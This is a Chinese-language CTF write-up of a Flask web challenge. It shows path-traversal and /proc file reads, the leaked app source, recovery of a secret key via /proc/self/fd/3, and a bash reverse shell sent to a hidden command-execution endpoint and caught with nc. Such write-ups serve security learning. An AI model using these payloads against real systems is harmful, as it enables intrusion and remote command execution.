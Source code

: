 ![[Pasted image 20230104083639.png|500]]

---
首页长这样
![[Pasted image 20230104083703.png]]
朴实无华.jpg
![[Pasted image 20230104083746.png]]

```php
/page?url=../flag
```
然后就拿到`flag`了

看`wp`还有个预期解

获取进程的`cmdline`
```php
/page?url=/proc/self/cmdline
```

```shell
python2 app.py
```

```php
/page?url=app.py
```

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

使用`open`打开了，但是没有`close`，可以使用文件描述符读取
默认创建了三个文件描述符，`stdin`、`stdout`和`stderr`
所以`secret.txt`的`fd`应该是`3`

```php
/page?url=/proc/self/fd/3
```

```
kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=
```

反弹`shell`
```php
no_one_know_the_manager?key=kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=&shell=bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/7777 0>&1"
```
查询参数要进行`url`编码
```shell
nc -lvp 7777
```
![[Pasted image 20230104094436.png|1000]]
```shell
cat /flag
```

```
flag{5dbf6e32-aa1e-4f39-b328-425144e25c25}
```

#Web #linux #proc #文件描述符 #反弹shell 